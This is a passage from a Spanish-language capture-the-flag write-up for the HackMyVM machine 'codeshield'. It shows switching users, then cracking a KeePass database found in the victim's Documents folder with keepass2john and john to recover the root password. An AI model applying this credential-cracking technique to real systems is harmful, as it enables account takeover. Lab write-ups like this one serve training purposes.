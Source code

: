 Así que cambiar de usuario es simple.

```
mitchellt@codeshield:~$ su earlyp
Password: 
earlyp@codeshield:/home/mitchellt$
```

### Earlyp

Para conseguir permisos de usuario **root** desde este usuario hay dos opciones.

#### Alternativa 1

Me dirijo al directorio **~/Documents** donde encuentro un archivo **kdbx** con contraseña.

```
earlyp@codeshield:~$ cd Documents/
earlyp@codeshield:~/Documents$ ls
Passwords.kdbx
```

Lo llevo a mi máquina Kali donde utilizo **john** para crackearlo. He utilizado las mismas contraseñas que antes (obtenidas del pdf).

```
h3rshel@kali:~/Desktop$ keepass2john Passwords.kdbx > hash
h3rshel@kali:~/Desktop$ john hash --wordlist=pass               
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 3225806 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m**********     (pass)
```

Una vez conocida la contraeña, puedo abrir el archivo online y ver que contenía la contraseña del usuario root.
![img](../imgs/write-ups/hackmyvm/codeshield/codeshield_4.png)
